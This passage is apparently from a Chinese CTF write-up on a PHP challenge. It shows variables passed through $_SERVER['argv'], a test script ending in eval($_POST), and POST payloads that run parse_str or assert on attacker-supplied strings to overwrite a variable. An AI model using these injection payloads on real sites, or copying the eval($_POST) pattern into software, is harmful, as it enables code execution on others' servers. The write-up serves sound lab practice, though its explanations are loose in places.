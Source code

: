 ```php
echo $arr[1]; // baz
?> 
```

与**extract**的区别是一个接受数组，一个接受字符串

*接下来解决传值的问题*

在GET和POST都用不了的情况下，只能考虑***$_SERVER['argv']***

**query string是Uniform Resource Locator (URL)的一部分, 其中包含着需要传给web application的数据**

我暂时的理解就是，以GET形式传的数据会被储存在**argv数组**中(注意需要在php.ini开启register_argc_argv配置项)

且**+**为该数组的分隔符(试了空格不行)，然后又不能直接GET传fl0g，所以就

`?a=1+fl0g=flag_give_me`

得到的是

```php
<?php
$f10g=111;
$a=$_SERVER['argv'];
var_dump($a);
echo '<br>';
echo($a[0]);
echo '<br>';
echo($a[1]);
eval($_POST)
?>
array(2) { [0]=> string(3) "a=1" [1]=> string(17) "fl0g=flag_give_me" }
a=1
fl0g=flag_give_me
```

很明显，f10g被覆盖了，`f10g=flag_give_me`这个字符串储存在**a[1]**中

然后POST

`CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1]) `

还有另一个解法

`GET:?$fl0g=flag_give_me`
`POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])`

<font color='purple'>**assert**</font>

检查一个断言是否为 **`false`**
(断言？不懂，但不重要)

```php
PHP 5

assert(mixed $assertion, string $description = ?): bool

PHP 7

assert(mixed $assertion, Throwable $exception = ?): bool
```
